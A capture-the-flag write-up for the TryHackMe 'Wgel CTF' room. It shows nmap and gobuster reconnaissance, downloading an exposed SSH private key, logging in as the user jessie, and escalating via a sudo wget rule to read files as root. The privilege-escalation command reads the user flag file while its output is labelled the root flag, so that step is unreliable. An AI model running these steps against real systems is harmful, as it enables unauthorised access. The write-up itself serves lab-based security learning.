


# Wgel CTF

[Wgel CTF]() is an easy TryHackMe room created by
[MrSeth6797](https://tryhackme.com/p/MrSeth6797).

## Recon

As usual, start off with scanning for open ports and services:

```
$ nmap -sV $IP -oN nmap_scan.txt

22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

Two open ports:

- **Port 22:** SSH for remote access to the system
- **Port 80:** Apache 2.4.18 HTTP web server

Navigate to the website and check out the page's source code. There is a
comment:



Take note that Jessie could be a possible username we can use to SSH in.

We can enumerate the website further with a tool like `gobuster`:

```
$ gobuster -u http://10.10.66.133 -w /usr/share/wordlists/dirb/common.txt

/index.html
/server-status
/sitemap
```

The sitemap page looks interesting. Let's scan it further:

```
$ gobuster -u http://10.10.66.133/sitemap -w /usr/share/wordlists/dirb/common.txt
...
/.ssh
/css
/js
```

We found a /.ssh directory! 



An id_rsa key can be used as an alternative method to log into SSH. Meaning, we
do not need a password! Maybe we can try this against the Jessie user found
earlier?

---

## Initial Access

Download the id_rsa key from the webserver with `wget`:

```
$ wget http://10.10.66.133/sitemap/.ssh/id_rsa -O ./id_rsa
```

Now login as Jessie:

```
$ chmod 600 id_rsa
$ ssh jessie@10.10.66.133 -i id_rsa
...
jessie@CorpOne:~$ id
uid=1000(jessie) gid=1000(jessie)
groups=1000(jessie),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

The user flag is in ~/Documents/user_flag.txt

```
jessie@CorpOne:~$ cat Documents/user_flag.txt
REDACTED-USER-FLAG
```

---

## Privilege Escalation

Next, we need to read the root user flag. In order to do so, we need root
privileges. 

A good first check is to run `sudo -l` to list what we can run as root:

```
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin 

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

There are two entries here: (1) we can run all commands as root, but need to
know Jessie's password, and (2) we can run `wget` as root.

According to [the amazing GTFOBins repo](https://gtfobins.github.io/gtfobins/wget/#file-read) we can use `wget` to
read files. We'll use this technique to read the root user's flag:

```
jessie@CorpOne:~$ sudo /usr/bin/wget -i Documents/user_flag.txt 
--2021-05-31 06:27:42-- REDACTED-ROOT-FLAG
```

---

## Lessons Learned

1. Private SSH keys should NOT be openly available for anyone to read!
